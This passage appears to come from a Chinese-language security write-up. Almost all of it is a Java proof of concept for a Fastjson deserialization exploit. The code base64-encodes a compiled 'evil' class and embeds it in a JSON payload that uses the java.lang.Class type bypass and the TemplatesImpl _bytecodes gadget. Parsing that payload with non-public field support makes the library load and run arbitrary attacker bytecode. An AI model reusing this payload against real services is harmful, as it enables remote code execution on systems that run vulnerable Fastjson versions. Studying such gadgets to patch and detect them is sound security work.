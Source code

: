 

接着构建POC文件

```
import com.alibaba.fastjson.parser.Feature;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;


public class temple_poc {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = "C:\\xxxxxx\\temple_test.class";
        String evilCode = readClass(evilClassPath);
        String text1 = "{\n" +
                "    \"name\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"\n" +
                "    },\n" +
                "    \"x\":{\n" +
                "       \"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\n" +
                "\"_bytecodes\":[\""+evilCode+"\"],\n" +
                "'_name':'a.b',\n" +
                "'_tfactory':{ },\n" +
                "\"_outputProperties\":{ }\n" +
                "    }\n" +
                "\n" +
                "}\n";
//        System.out.println(evilCode);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
//        obj.toString();
    }

    public static void main(String args[]){

        try {
            test_autoTypeDeny();
        } catch (Exception e) {
        }
    }
}

```